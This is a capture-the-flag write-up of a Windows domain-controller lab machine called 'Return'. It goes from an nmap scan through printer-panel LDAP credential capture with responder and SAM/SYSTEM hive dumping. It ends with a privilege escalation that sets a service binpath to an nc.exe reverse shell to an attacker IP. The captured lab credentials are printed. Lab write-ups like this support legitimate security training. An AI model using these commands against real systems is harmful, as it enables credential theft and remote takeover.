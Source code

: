 # Return

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.241 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-05 02:24 EDT
Nmap scan report for 10.129.95.241
Host is up (0.0073s latency).
Not shown: 65512 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49674/tcp open  unknown
49675/tcp open  unknown
49678/tcp open  unknown
49681/tcp open  unknown
49698/tcp open  unknown
```

### SMB Enum

`enum4linux` returned nothong of interest with both null and guest credentials.&#x20;

### LDAP

`ldapsearch` returns nothing because we have no credentials.

### HTTP --> Printer Creds

There is a HTTP port open, and when viewed, it shows a Printer Admin Panel:

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

When we view the settings, this is what we see:

<figure><img src="../../../.gitbook/assets/image (31) (7).png" alt=""><figcaption></figcaption></figure>

This looks poisanable since we can control the server address. As such, I started `responder`.&#x20;

```bash
$ sudo responder -I tun0
LDAP] Cleartext Client   : 10.129.95.241
[LDAP] Cleartext Username : return\svc-printer
[LDAP] Cleartext Password : 1edFg43012!!
```

We now have some credentials. We can use these to login with `evil-winrm`.&#x20;

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag.

## Privilege Escalation

### SeBackupPrivilege Fail

When we check our privileges, we see that we have a lot:

```
*Evil-WinRM* PS C:\Users\svc-printer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled
```

With this, we can save the `system` and `sam` files, then dump the hashes with `secretsdump.py`.&#x20;

```
reg save hklm\sam c:\users\svc-printer\sam
reg save hklm\system c:\users\svc-printer\system
download sam
download system
```

Afterwards, we can dump hashes:

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

However, when trying to pass the hash, it seems that this doesn't work.

### Services Exploit

When we check which groups we are part of in the machine, we see that `svc-printer` is part of Server Operators.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 1:15:13 AM
Password expires             Never
Password changeable          5/27/2021 1:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   5/26/2021 1:39:29 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

We can also check the services running with `services`.

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> services

Path                                                                                                                 Privileges Service          
----                                                                                                                 ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                                                                  True ADWS             
\??\C:\ProgramData\Microsoft\Windows Defender\Definition Updates\{5533AFC7-64B3-4F6E-B453-E35320B35716}\MpKslDrv.sys       True MpKslceeb2796    
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                                                              True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                                                           True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"                                                False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                                                                 False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"                                                     True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                                                        True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\NisSrv.exe"                                             True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2104.14-0\MsMpEng.exe"                                            True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                                                      False WMPNetworkSvc 
```

Since we have privileges over some of the services, we can follow this article online to execute a reverse shell via `nc.exe` as `SYSTEM`.

{% embed url="https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/" %}

However, it seems that although we have privileges over these services, we cannot restart them for some reason. So we need to find a service that is currently stopped, then change its configuration and start it.&#x20;

Again, we fail in this aspect because we don't have access to the Service Control Manager to view what we can control. So in this case, I used a writeup and saw that they used the VSS service to do the exploit.&#x20;

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe query VSS

SERVICE_NAME: VSS
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

I wasn't too sure how they got to using this. Anyways, we can configure it like so:

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config VSS binpath="C:\Windows\system32\cmd.exe /c C:\users\svc-printer\documents\nc.exe -e cmd.exe 10.10.14.13 4444"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start VSS
```

This would create a reverse shell on our listener port:

<figure><img src="../../../.gitbook/assets/image (42) (8).png" alt=""><figcaption></figcaption></figure>
